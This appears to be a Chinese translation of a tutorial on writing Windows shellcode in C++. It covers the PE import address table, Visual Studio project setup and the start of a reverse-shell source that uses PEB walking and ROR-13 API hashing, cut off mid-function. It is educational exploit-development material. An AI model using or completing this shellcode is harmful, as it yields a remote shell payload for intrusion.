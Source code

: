 在`nutshell`中，`PE`文件含有导入表和导入地址表（`IAT`）。导入表含有被导入到库中的函数的信息。当执行体被加载时，通过`Windows loader`编译`IAT`，并且其含有已导入的函数地址。该执行体的代码用间接寻址调用已导入到库中的函数。例如：

```
 001D100B FF 15 94 20 1D 00    call        dword ptr ds:[1D2094h]

```

地址`1D2094h`为入口地址（在`IAT`中），该地址含有函数 `MessageBoxA`的地址。因为如上调用函数的地址无需被修复（除非执行体被重定位），所以可以直接使用该地址。`Windows loader`只需要修复的是在`1D2094h`地址，该`dword`值是`MessageBoxA`函数的地址。

解决方案是直接从`Windows`的数据结构中得到`Windows`的函数地址。之后我们将会了解到。

#### 创建新项目

通过 `File→New→Project…`, 选择 `Installed→Templates→Visual C++→Win32→Win32 Console Application`, 为项目命名 (我将其命名为 `shellcode`) 接着点击OK。

通过 `Project→<project name> properties` 将出现新会话框。通过将 `Configuration`（会话的左上方）设置为`All Configurations`将修改应用到所有配置（`Release`和`Debug`）。接着，展开`Configuration Properties`并且在`General` 下修改`Platform Toolset` 。该编译器为`Visual C++ Compiler Nov 2013 CTP`(CTP_Nov2013)。

这样你将可以使用`C++11`和`C++14`的一些特性，如`static_assert`。

#### Shellcode范例

这是一段简单的反向`shell`代码（定义）。将命名为`shellcode.cpp`的文件添加到项目中并将该代码复制到`shellcode.cpp`。不要试图理解所有的代码。后面我们还会对其进行进一步的讨论。

```
// Simple reverse shell shellcode by Massimiliano Tomassoli (2015)
// NOTE: Compiled on Visual Studio 2013 + "Visual C++ Compiler November 2013 CTP".
 
#include <WinSock2.h>               // must preceed #include <windows.h>
#include <WS2tcpip.h>
#include <windows.h>
#include <winnt.h>
#include <winternl.h>
#include <stddef.h>
#include <stdio.h>
 
#define htons(A) ((((WORD)(A) & 0xff00) >> 8) | (((WORD)(A) & 0x00ff) << 8))
 
_inline PEB *getPEB() {
    PEB *p;
    __asm {
        mov     eax, fs:[30h]
        mov     p, eax
    }
    return p;
}
 
DWORD getHash(const char *str) {
    DWORD h = 0;
    while (*str) {
        h = (h >> 13) | (h << (32 - 13));       // ROR h, 13
        h += *str >= 'a' ? *str - 32 : *str;    // convert the character to uppercase
        str++;
    }
    return h;
}
 
DWORD getFunctionHash(const char *moduleName, const char *functionName) {
    return getHash(moduleName) + getHash(functionName);
}
 
LDR_DATA_TABLE_ENTRY *getDataTableEntry(const LIST_ENTRY *ptr) {
    int list_entry_offset = offsetof(LDR_DATA_TABLE_ENTRY, InMemoryOrderLinks);
```